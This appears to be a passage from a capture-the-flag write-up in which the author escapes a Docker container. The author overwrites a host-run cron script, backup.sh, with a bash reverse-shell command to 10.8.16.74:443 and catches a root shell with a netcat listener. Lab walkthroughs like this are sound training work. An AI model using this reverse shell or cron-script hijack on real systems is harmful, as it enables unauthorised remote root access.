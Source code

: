 ### Flag 4

If we navigate to `/` we see the file `.dockerenv` meaning that we are in `Docker container`.

There is an interesting file `backup.sh` in `/opt/backups/`, which should be executed as a Cron job on the Host machine, because it is executing a `tar` command. So, we can modify `backup.sh` in order to get a reverse shell from the Host.


```shell
echo "bash -c 'exec bash -i &>/dev/tcp/10.8.16.74/443 <&1'" > backup.sh 
cat backup.sh
bash -c 'exec bash -i &>/dev/tcp/10.8.16.74/443 <&1'
```

Open a netcat listener on 443 port and wait for the connection.


```shell
geobour98@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.16.74] from (UNKNOWN) [10.10.202.202] 38480
bash: cannot set terminal process group (3679): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@dogcat:~# cat flag4.txt
cat flag4.txt
[REDACTED]
```

Now are the `root` user on the Host machine.

Proof of Concept (PoC image):
![Desktop View](/assets/img/dogcat/poc.png){: width="972" height="589" }
